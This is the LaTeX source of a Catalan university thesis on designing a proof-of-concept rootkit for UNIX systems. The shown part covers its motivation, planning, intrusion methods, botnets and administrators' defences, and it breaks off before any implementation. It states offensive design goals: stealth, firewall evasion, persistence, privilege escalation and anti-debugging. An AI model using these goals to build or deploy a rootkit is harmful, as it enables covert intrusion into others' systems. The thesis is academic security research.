% Tipus de document
\documentclass[a4paper]{report}
% Utilitzar tota l'amplada de la pàgina
\usepackage{fullpage}
% Extres de LaTex
\usepackage{latexsym}
% Text en utf8
\usepackage{ucs}
\usepackage[utf8x]{inputenc}
% Text generat automàticament en català i partició per síl·labes
\usepackage[catalan]{babel}
% Per afegir imatges
\usepackage{graphicx}
% Per utilitzar colors
\usepackage[usenames,dvipsnames]{color}
% Pel glossari
\usepackage{nomencl} 
\makenomenclature

% Per afegir codi font
\usepackage{fancyvrb}
% Per el simbol d'euro
\usepackage{eurosym}

% native vim style
\newcommand\PYZat{@}
\newcommand\PYZlb{[}
\newcommand\PYZrb{]}
\newcommand\PYbo[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYbn[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYbm[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYbl[1]{\textcolor[rgb]{1.00,0.65,0.00}{#1}}
\newcommand\PYbk[1]{\textcolor[rgb]{1.00,1.00,1.00}{\textbf{#1}}}
\newcommand\PYbj[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYbi[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYbh[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYbg[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYbf[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYbe[1]{\textcolor[rgb]{0.14,0.56,0.62}{#1}}
\newcommand\PYbd[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYbc[1]{\textcolor[rgb]{0.27,0.50,0.81}{\underline{#1}}}
\newcommand\PYbb[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYba[1]{\textcolor[rgb]{1.00,1.00,1.00}{\underline{#1}}}
\newcommand\PYbr[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYbq[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYbp[1]{\textcolor[rgb]{0.73,0.73,0.73}{#1}}
\newcommand\PYaJ[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYaK[1]{\colorbox[rgb]{0.89,0.82,0.82}{\textcolor[rgb]{0.65,0.09,0.09}{#1}}}
\newcommand\PYaH[1]{\textcolor[rgb]{0.82,0.14,0.14}{#1}}
\newcommand\PYaI[1]{\textcolor[rgb]{0.82,0.14,0.14}{#1}}
\newcommand\PYaN[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYaO[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYaL[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYaM[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYaB[1]{\textcolor[rgb]{0.35,0.60,0.10}{#1}}
\newcommand\PYaC[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYaA[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYaF[1]{\textcolor[rgb]{1.00,0.65,0.00}{#1}}
\newcommand\PYaG[1]{\textcolor[rgb]{0.60,0.60,0.60}{\textit{#1}}}
\newcommand\PYaD[1]{\textcolor[rgb]{0.14,0.56,0.62}{#1}}
\newcommand\PYaE[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYaZ[1]{\textcolor[rgb]{0.60,0.60,0.60}{\textit{#1}}}
\newcommand\PYaX[1]{\textcolor[rgb]{0.25,1.00,1.00}{#1}}
\newcommand\PYaY[1]{\textcolor[rgb]{0.21,0.47,0.66}{#1}}
\newcommand\PYaR[1]{\textcolor[rgb]{0.40,0.40,0.40}{#1}}
\newcommand\PYaS[1]{\textcolor[rgb]{0.80,0.16,0.16}{\textbf{#1}}}
\newcommand\PYaP[1]{\textcolor[rgb]{0.27,0.50,0.81}{#1}}
\newcommand\PYaQ[1]{\colorbox[rgb]{0.32,0.00,0.00}{\textcolor[rgb]{0.90,0.03,0.03}{\textbf{#1}}}}
\newcommand\PYaV[1]{\textcolor[rgb]{0.73,0.73,0.73}{#1}}
\newcommand\PYaW[1]{\textcolor[rgb]{0.21,0.47,0.66}{#1}}
\newcommand\PYaT[1]{\textcolor[rgb]{0.27,0.50,0.81}{\underline{#1}}}
\newcommand\PYaU[1]{\textcolor[rgb]{0.67,0.67,0.67}{#1}}
\newcommand\PYaj[1]{\textcolor[rgb]{0.25,1.00,1.00}{#1}}
\newcommand\PYak[1]{\textcolor[rgb]{0.42,0.72,0.15}{#1}}
\newcommand\PYah[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYai[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYan[1]{\textcolor[rgb]{0.82,0.82,0.82}{\textbf{#1}}}
\newcommand\PYao[1]{\textcolor[rgb]{0.21,0.47,0.66}{#1}}
\newcommand\PYal[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYam[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYab[1]{\textcolor[rgb]{0.82,0.82,0.82}{\textit{#1}}}
\newcommand\PYac[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYaa[1]{\textcolor[rgb]{0.80,0.80,0.80}{#1}}
\newcommand\PYaf[1]{\textcolor[rgb]{0.60,0.60,0.60}{\textit{#1}}}
\newcommand\PYag[1]{\textcolor[rgb]{0.21,0.47,0.66}{#1}}
\newcommand\PYad[1]{\textcolor[rgb]{0.82,0.14,0.14}{#1}}
\newcommand\PYae[1]{\textcolor[rgb]{0.21,0.47,0.66}{#1}}
\newcommand\PYaz[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}
\newcommand\PYax[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYay[1]{\textcolor[rgb]{0.21,0.47,0.66}{#1}}
\newcommand\PYar[1]{\textcolor[rgb]{0.25,1.00,1.00}{#1}}
\newcommand\PYas[1]{\textcolor[rgb]{0.25,1.00,1.00}{#1}}
\newcommand\PYap[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYaq[1]{\textcolor[rgb]{0.42,0.72,0.15}{\textbf{#1}}}
\newcommand\PYav[1]{\textcolor[rgb]{0.25,1.00,1.00}{#1}}
\newcommand\PYaw[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYat[1]{\textcolor[rgb]{0.93,0.62,0.07}{#1}}
\newcommand\PYau[1]{\textcolor[rgb]{0.82,0.82,0.82}{#1}}

% Que mostri la capçalera a tots els fulls
%\pagestyle{headings}

% Autor
\author{Albert Sellarès Torra \texttt{<whats@wekk.net>}\\
		Facultat d'Informàtica de Barcelona,\\
		UPC\\}
%\date{2009}
		
% Títol de l'article
\title{skd: Rootkit per sistemes operatius UNIX}

% Millora el pdf. Ha de ser l'últim del preàmbul
\usepackage[pdftex,bookmarks,colorlinks,pdfnewwindow]{hyperref}
% Descomentar-ho per imprimir sense colors
\hypersetup{
	hyperindex=true,
	colorlinks=true,
	linkcolor=blue,
	anchorcolor=blue,
	citecolor=blue,
	filecolor=blue, 
	menucolor=blue,
	pagecolor=blue,
	urlcolor=blue,
	bookmarksnumbered=true}

\begin{document}

% Portada

\includepdf[pages=-]{Portada.pdf}
%\maketitle
\newpage


% Índex
\tableofcontents
\newpage


% Introducció
\chapter{Introducció}

Aquest projecte tracta d'implementar una prova de concepte del què seria un rootkit\footnote{rootkit:
Eina o conjunt d'eines que té com a finalitat amagar-se a i amagar altres programes, processos, arxius, 
directoris, ports, etc., per tal que permeti a un intrús accedir al sistema (normalment remotament), 
així com extreure informació.} per a sistemes operatius actuals basats en UNIX.\\ 

Un rootkit és una aplicació pensada per a ser utilitzada com a porta del darrere per tal de
poder accedir i controlar un sistema, i que a més, s'amaga per a no ser descobert.\\

És sabut que existeixen programes fets amb aquesta finalitat, però la majoria d'ells són
per sistemes Windows, no estan públics a la xarxa, estan desfasats i ja no poden ser
usats en els sistemes operatius actuals. A més, els nuclis de sistemes operatius actuals implementen cada vegada més
proteccions per tal d'evitar que programes com aquests els controlin.

\section{Motivació del projecte}

Avui en dia ens veiem immersos en la societat de la informació, un moment en què la
majoria de les empreses i persones intentem adaptar-nos a les noves tecnologies,
moment en què s'intenta digitalitzar tot el què es pot. Qui més qui menys veu que en uns anys tot es veurà gestionat a través de sistemes
d'informació, tot estarà interconnectat entre sí, i s'ha de poder garantir que tots aquests
sistemes comptin amb un mínim de seguretat.\\


Les implicacions que té estar infectat per un virus estan canviant. Els virus (i en particular
els cavalls de Troia) ja no es fan per molestar a l'usuari, al contrari, un alt percentatge dels
virus tenen com a objectiu principal ocultar-se. Passant desapercebuts, permeten a l'infectant
controlar la nostre màquina podent fer qualsevol cosa en ella com per exemple, apoderar-
se de la nostra compta bancària.\\
Parem-nos a pensar per un moment què passaria si en comptes de què l'infecció estigués
a la nostre màquina, aquesta estigués als servidors on es fan les nostres nòmines, als dels
nostres bancs, o a les de qualsevol pàgina de venta d'articles per internet. El perill i la
criticitat es disparen exponencialment.\\


Des dels inicis de la història els sistemes operatius UNIX han estat al capdavant en els
entorns de servidors, i des de llavors que les grans empreses els utilitzen per a confiar-hi
les seves dades. Avui, i gràcies al boom que ha fet el GNU/Linux i en general el programari lliure (tothom qui més qui
menys té una idea del què és), administradors de sistemes no experimentats acaben
utilitzant sistemes basats en UNIX en el seu lloc de treball. \\
El fet és, que actualment moltes empreses utilitzen aquests sistemes operatius (com poden ser
GNU/Linux, BSD, Solaris, etc) per als seus servidors, i són moltes les què s'acaben despreocupant
de la seguretat dels servidors donant com a excusa que un sistema basat amb UNIX és
més segur, i que a més, no hi han virus. A la practica, molta gent que es dedica a
administrar aquestes màquines, no està qualificada, o no compta amb el temps necessari
per a fer-ho del tot bé, i com que les coses aparentment funcionen, es segueix així. \\

I aquest és el punt on vull arribar. Avui, una persona amb suficients ganes, temps i
coneixements, pot guanyar accés a la majoria de servidors, on un cop dintre, la seva
preocupació principal és mantenir-ne l'accés.\\

Amb aquest projecte, intento posar de manifest creant una prova del concepte, lo difícil
que pot arribar a ser per un administrador de sistemes adonar-se que ha estat infectat per
un rootkit, lo perillós per a la seguretat del sistema, i lo crua que és la realitat ja que un
intrús pot tenir-ho molt fàcil per a controlar el nostre servidor.

\section{Objectiu}

L'objectiu del projecte és implementar un rootkit per a sistemes basats en UNIX. Tot seguit
es descriu en forma de resum, les característiques en un caire general que el rootkit ha de potenciar. 

\begin{description}
    \item[Ocultació] Ha de passar el màxim desapercebut en el sistema on estigui
    instal·lat. Per un administrador, ha de ser molt difícil adonar-se que el
    sistema ha estat compromès. El rootkit ha d'intentar ocultar al màxim les tasques
    que executa.

    \item[Accés] Ha de permetre l'accés a la persona que
    l'ha instal·lat. Normalment i per comoditat, aquest accés és remot a través
    d'internet. El rootkit ha de facilitar al màxim aquest accés, havent d'evitar les diferents 
    barreres que hi puguin haver (firewalls, ACLs, etc).

    \item[Administració] Ha de permetre realitzar tot tipus
    d'accions a la màquina com si d'un usuari vàlid es tractés. Accions com executar
    tasques, editar fitxers, pujar o descarregar-ne, són funcionalitats bàsiques que ens
    ha de permetre efectuar.

    \item[Permanència] Les màquines s'actualitzen, es paren i s'engeguen. El rootkit ha
    d'intentar no veure's afectat per aquests canvis.

    \item[Augment de privilegis] Ha d'ajudar tant com pugui, a l'obtenció de nous
    privilegis. Altres comptes d'usuari, comptes d'altres màquines, comptes de bases de dades, etc.
\end{description}



% Planificació
\chapter{Planificació}

En un primer moment, la planificació del projecte va ser la següent: \\


\includegraphics[scale=0.7,keepaspectratio]{primer_gantt.png} \\

Els punts principals d'aquesta planificació, eren el fet de no deixar la documentació del projecte pel final, 
sinó que fos un punt que s'anés avançant constantment. Varem separar les diferents tasques entre el disseny
i la recerca inicial, la implementació de les seves funcionalitats en dos blocs segons la seva dificultat,
una part del rootkit a nivell de kernel i només per a GNU/Linux, i finalment un anàlisis general per a polir-ho
i homogeneïtzar-ho tot. \\

Sabíem que el fet que gran part del projecte fos haver de fer la recerca, podia provocar alguns canvis en quant a
les funcionalitats decidides inicialment, i així va ser.

Sobre aquesta planificació, va haver-hi principalment els següents canvis:

\begin{itemize}
    \item Eliminació de la injecció de codi en memòria de kernel (Es va eliminar ja que en kernels actuals ja no 
        és factible, i per tant es va decidir potenciar altres punts. Tot i això s'ha documentat el què i el perquè)
    \item Falta de previsió en el fet que el planning passava per períodes d'examens finals i de vacances.
\end{itemize}

Com a comentaris importants, dir que la planificació inicial es va veure força afectada a partir de la tercera setmana de Juny, que al apropar-se
examens i entregues finals d'altres assignatures, varem pactar amb el tutor per a fer una petita pausa. També el període posterior
de vacances, va fer allargar-lo una mica més. \\

Un cop aplicats els diferents canvis que van afectar el projecte, la planificació final va ser la següent: \\

GRAFIC GANTT REAL


% Definició del problema o requeriments
\chapter{Definició del problema}

Per tal de poder entendre la necessitat de les diferents funcionalitats que ens ha d'oferir el rootkit,
és important que primer de tot, tinguem una idea de com es realitzen avui en dia la gran majoria
d'intrusions\footnote{Una intrusió, és l'accés il·legal a una màquina. El fet de introduir-se a una màquina
en temes de seguretat informàtica, també s'acostuma a dir (en un llenguatge més informal) ``hackejar una màquina''},
i el què fan els diferents administradors per protegir-se. Cal tenir en compte que aquests procediments són 
utilitzats alhora d'atacar servidors, en cas de voler atacar pc's d'usuaris domèstics, les tècniques utilitzades 
solen ser diferents.

\section{Intrusions}

Una intrusió és el fet d'aconseguir accés a una màquina normalment remota. D'una manera més tècnica, es podria dir
que l'objectiu d'una intrusió és poder arribar a executar codi\footnote{Amb codi ens referim a llenguatge màquina o comandes de sistema.} 
a la màquina víctima. \\

La intrusió és el primer pas necessari per tal de poder comprometre del tot una màquina. El conjunt de passos a 
realitzar alhora d'accedir a una màquina es poden resumir com:

\begin{itemize}
\item Intrusió.
\item Augment de privilegis.
\item Instal·lació d'un backdoor.
\item Eliminació de proves.
\end{itemize}

Aquests són els passos a realitzar en una ``bona'' intrusió, tot i que a la majoria de les intrusions que es produeixen
avui en dia són processos automatitzats que només realitzen el primer i tercer punt.

\subsection{Intrusions automatitzades} 

Avui en dia, la majoria d'intrusions que pateixen els servidors, són intrusions automatitzades causades per cucs o 
programes que exploten un bug o mala configuració en un software en concret. Aquestes intrusions automatitzen les 
tasques a executar un cop s'aconsegueix l'accés a una màquina, així com el mateix procediment per aconseguir accedir-hi. 
Per tal de trobar possibles víctimes, aquests programes
es dediquen a escanejar diferents rangs d'IPs a la cerca de màquines que tinguin un servei en qüestió, o 
fan de crawler per tal de trobar noves URLs que indiquin l'ús d'un software web vulnerable. \\

A una màquina víctima d'una intrusió com aquesta, se li instal·la un tipus de rootkit que permet llançar accions en 
ella (un backdoor). Fins fa poc, la majoria de backdoors d'aquest tipus es connectaven a canals de IRC, on 
processaven les comandes que algun altre usuari llançava. D'aquesta manera, el propietari del backdoor podia controlar 
d'una manera fàcil moltes màquines alhora. Per tal de llançar alguna acció en les víctimes, aquest usuari només havia de 
connectar-se al canal en qüestió, i 
enviar un missatge de text, que seria interpretat per totes les màquines que tinguessin el seu backdoor instal·lat. 
Recentment tot això ha començat a canviar una mica, ja que els propietaris d'aquests backdoors estan millorant força la tècnica
per fer-los més efectius. \\

El conjunt de màquines infectades per aquest tipus de backdoors, i que poden ser controlades totes alhora, s'anomena
botnets. Aquestes botnets s'utilitzen principalment per fer atacs massius de tipus DoS contra altres màquines i per enviar SPAM. 
Una dada interessant, és el fet que hi ha gent que s'hi guanya la vida. Per exemple, per una xarxa d'unes 10.000 màquines
es poden arribar a pagar quantitats entre 15.000 USD i 20.000 USD. \\

El principal canvi que estan realitzant la majoria d'aquests backdoors, és que estan canviant el protocol de funcionament. Els
més moderns que han aparegut, han canviat l'IRC per l'HTTP i a més, han implementant tècniques de xifratge sobre els diferents 
missatges amb l'objectiu de passar més desapercebuts\footnote{Un exemple d'això, és la recent notícia de que el servei web 
\href{http://twitter.com/}{Twitter} estava sent utilitzat per a controlar una botnet \url{http://asert.arbornetworks.com/2009/08/twitter-based-botnet-command-channel/}}. \\

Les intrusions d'aquest tipus, acostumen a ser provocades per persones que realment no tenen molts coneixements tècnics, sinó que 
agafen algun exploit que s'hagi publicat recentment, i l'intenten modificar per tal de poder fer-ne un atac massiu. El
software utilitzat per gestionar la màquina, no està fet per ells sinó que el descarreguen d'Internet i el configuren. 
Aquestes intrusions acostumen a ser portades a terme per gent força jove. \\

Evitar una intrusió d'aquest tipus, acostuma a ser fàcil, ja que 
acostuma a ser suficient en mantenir tot el software de les màquines actualitzat. \\

Generalment, detectar aquest tipus d'intrusions no és molt difícil. Per detectar-les, sol ser suficient en buscar en el directori /tmp i /var/tmp
l'existència de fitxers o directoris estranys (ocults, amb espais, etc). També acostuma a ser interessant comprovar 
les connexions de xarxa per detectar si la màquina està registrada en alguna botnet. \\

\subsection{Intrusions manuals}

Les intrusions manuals depenen molt més de la persona que hi ha darrere la intrusió. \\

La menys perillosa és aquella que és realitzada per un script kiddie o newbie (el què pretén ser un hacker novell) que 
el què farà, serà semblant al propietari de la botnet, però de forma manual. Si la intrusió és satisfactòria, probablement
l'atacant intentarà augmentar els seus privilegis, i deixar algun backdoor per tal de poder mantenir l'accés que ha aconseguit
sense haver de tornar a explotar la vulnerabilitat. Cal tenir en compte que aquestes intrusions acostumen a formar part
de l'aprenentatge de la persona. \\

La intrusió realment perillosa és la que pot realitzar una persona amb una base tècnica important. En aquest cas, utilitzar
versions de software en les que no ha estat publicada cap vulnerabilitat, no és suficient (poden haver-hi vulnerabilitats
no conegudes públicament). En aquestes intrusions, l'objectiu sol estar més clar que en els anteriors (ja que 
l'esforç per realitzar-les és molt superior) i pot anar dirigit tant a aplicacions comunes, com a aplicacions fetes a mida. \\

En aquestes intrusions, i depenent de l'objectiu de l'atacant, molt probablement es realitzaran tots els punts comentats anteriorment
per tal de mantenir l'accés i passar desapercebut.  \\

En les intrusions manuals, l'atacant intentarà en tot moment treballar al màxim de còmode.
Això vol dir que si és capaç d'executar shellcode a la màquina que està atacant, no es dedicarà a crear el shellcode
necessari per a cada comanda que vulgui executar al sistema, sinó que tant aviat com pugui cercarà com
aconseguir una shell remota. Aquesta li permetrà d'una manera més o menys còmode, moure's pel sistema i llançar comandes una 
darrere l'altre. \\

Molt probablement en aquesta intrusió, un cop l'atacant hagi acabat, intentarà borrar les dades que demostren que
ha aconseguit l'accés (ex: línies de log del servei que ha explotat).

\section{Mesures de protecció}

Les principals mesures de protecció que es porten a terme per part dels administradors de sistema, per tal d'evitar
intrusions, són les següents:

\begin{description}
    \item[Actualitzacions de seguretat] La principal mesura que ajuda a mantenir els sistemes segurs, és
        realitzar les actualitzacions de seguretat, ja que aquestes corregeixen totes les vulnerabilitats
        conegudes del software instal·lat a través dels gestors de paquets del sistema operatiu. Cal tenir 
        en compte, que totes les aplicacions externes instal·lades manualment, requereixen d'una actualització i 
        comprovació manual. El fet d'instal·lar software d'aquesta manera acostuma a portar forces problemes 
        a la llarga, ja que si l'administrador no està molt al corrent del programari que instal·la,
        quan apareixen vulnerabilitats, li passen desapercebudes i a la màquina hi acaba quedant un software 
        vulnerable i mig oblidat.
    \item[Firewall d'entrada] La segona mesura que s'acostuma a aplicar a la vida real, és el fet de configurar
        un firewall que només permeti accedir als serveis que realment s'estan oferint a la màquina, de manera
        que si algun servei que està instal·lat a la màquina no ha de ser accessible des de fora, el firewall
        no hi permet l'accés. Això evita en el cas d'una intrusió, el poder deixar un servei escoltant a un port
        de la màquina de tal manera que més endavant es pugui accedir a ella.
    \item[Firewall de sortida] Un firewall de sortida ja no és una pràctica tant comuna. Només els ISPs més 
        professionals (i en definitiva, els més conscienciats amb la seguretat) són els què solen aplicar 
        polítiques de denegació del trànsit de sortida. Aplicar aquest tipus de polítiques, realment
        evita moltes possibles intrusions. Per exemple, un ISP amb aquestes polítiques però amb aplicacions 
        vulnerables instal·lades, probablement evitaria el que un possible propietari d'una botnet que utilitzés
        el IRC per controlar les màquines, s'apoderés de les seves. En aquest exemple, l'exploit explotaria 
        correctament l'aplicació vulnerable, però a l'hora de intentar connectar-se al canal de IRC per tal
        d'anunciar que està infectada, el firewall li denegaria la connexió, i així s'evitarien les 
		conseqüències de l'atac. 
        En els casos on s'utilitza un firewall de sortida, aquest no acostuma
        a denegar tot el transit, sinó que permet resolucions DNS, trànsit local, etc, i molts cops trànsit web. 
        És per aquest motiu, que les botnets estan canviant al protocol HTTP per a controlar 
        les seves màquines en comptes IRC (que era el més utilitzat fins ara).
    \item[Restriccions de sistema operatiu] A part dels punts comentats anteriorment, existeixen peces de 
        software que intenten restringir la pròpia explotació de vulnerabilitats tot endurint la seguretat que 
        envolta les aplicacions. Programari com SELinux, opcions de compilació del gcc, randomització del kernel, 
        etc, són altres tècniques que es poden utilitzar però d'una manera més involuntària ja que és 
        el propi SO el què et proveeix d'aquestes funcionalitats, i en cas de no fer-ho, és molt rara la vegada
        que una protecció d'aquestes és afegida a un sistema que no la porta ja incorporada.
    \item[Scripts personalitzats de comprovació] Una altre mesura també utilitzada, és la creació d'algun script per tal de 
        buscar processos o fitxers sospitosos. Aquesta mesura no és tant de protecció, sinó que 
        permet a l'administrador rebre una alarma en un cas concret. D'aquesta manera, és possible que 
		l'administrador pugui actuar més o menys a temps. Un script típic és el què busca execucions d'una 
		shell que pengen del procés del servidor web.
\end{description}

\section{Plans de contingència}

A part d'aquestes mesures de seguretat que permeten evitar molts incidents, els administradors de sistemes un cop
sospiten que han patit alguna intrusió, intentaran descobrir fins a on ha arribat la intrusió, què han instal·lat 
per a mantenir l'accés, i què han fet exactament. Per comprovar tot això, existeixen diferents utilitats que busquen si en 
el sistema hi han aplicacions sospitoses instal·lades. El problema que tenen aquestes utilitats és que només detecten
aplicacions genèriques, o aplicacions que utilitzen les tècniques més comunes. Exemples d'aquestes utilitats serien 
rkthunter, chckrootkit, etc. \\

En cas que aquestes utilitats no detectin res (serien com una espècie d'antivirus), poden causar a l'administrador
una falsa sensació de seguretat. Si tot i això l'administrador detecta el rootkit, ell mateix intentarà descobrir 
què és el que fa. És en aquest punt on igual  que els virus, les tècniques d'ocultació i antidebug prenen sentit.
Si l'administrador no és capaç de descobrir el què fa el rootkit, és molt possible que no el pugui eliminar de cap
altre manera que no sigui reinstal·lant la màquina. \\

\section{Objectiu}

Un cop tenim una visió més clara del què vol un atacant en el moment que realitza una intrusió, podem apropar-nos
una mica més als objectius que tindrà aquest rootkit:

\begin{itemize}
    \item Permetre recuperar l'accés i el nivell de privilegis a la màquina.
    \item Ocultar-se.
    \item Oferir un entorn el màxim de còmode.
    \item Evitar que el depurin i descobreixin el seu funcionament.
    \item Ser compatible amb la majoria de màquines.
\end{itemize}

En el nostre projecte, comencem a treballar a partir del moment en què ja hem aconseguit l'accés a la
màquina. En el moment en què ja som capaços d'executar codi, és quan volem que el nostre rootkit 
comenci a ser útil. \\


% Idea conceptual per solventar el problema
\chapter{Funcionalitats} \label{cap:funcionalitats}

